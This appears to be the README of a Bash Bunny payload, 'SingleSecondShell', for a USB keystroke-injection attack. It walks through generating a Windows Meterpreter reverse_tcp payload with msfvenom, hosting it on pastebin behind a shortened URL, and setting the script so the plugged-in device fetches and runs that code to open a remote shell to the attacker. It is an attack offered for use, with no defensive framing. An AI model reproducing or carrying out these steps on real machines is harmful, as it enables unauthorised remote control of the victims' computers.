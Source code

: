 # SingleSecondShell

Author: [@0xCoto](https://github.com/0xCoto)

Version: Version 1.0

## Description

Plug in the bash bunny, get a shell. Instantly.

The <1 Second ReverseShell Payload is going to run blazing fast on the Bash Bunny, and cannot work on any other BadUSB devices, such as the USB Rubber Ducky that quick. That is obviously the reason this Payload is dedicated and specifically developed for the Bash Bunny. Plug in, and before you know it, you've got a shell. How awesome is that?

## Configuration

#### Generating Payload
In order to generate your reverse_tcp Payload, you need to run the following command on your Kali machine (unless you have msfvenom installed on another OS): ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd –smallest```

Make sure to replace `YOUR_IP` with your local/public IP Address (depending on the type of attack you are looking to perform) and `YOUR_PORT` with the port that you've forwarded (if you are performing a public attack, outside your network).

When the payload is generated, remove everything up to `powershell.exe` and upload it to pastebin. Here's my example: http://pastebin.com/raw/DJbS5mTj

#### Shortening the URL
As you can see, we have a pretty long URL. So, in order to shorten the URL and reduce the amount of keystrokes, therefore attacking time, we are going to be using a URL shortening service, such as https://goo.gl/.

#### Completeing the script
That's it. Now just replace the `$u='YOUR_LINK'` with your new URL. For example: `$u='goo.gl/8ggZD1'`

Note: You do not need to include `http(s)://` in your URL, so you can go ahead and get rid of that too to reduce keystrokes and speedup the keystroke injection.

## Listening to Connections
Listening to connections is pretty straightforward, but I'm not going to cover it in detail in this tutorial. All you need to do is use a listener software, CLI or GUI, such as `msfconsole` or `Armitage`, both of which can be setup to work with each other very easily.

## Bash Bunny Status

| LED              | Status                                |
| ---------------- | ------------------------------------- |
| Red              | Failed to open script file            |
| Amber            | Script Running                        |
| Green            | Finished                              |
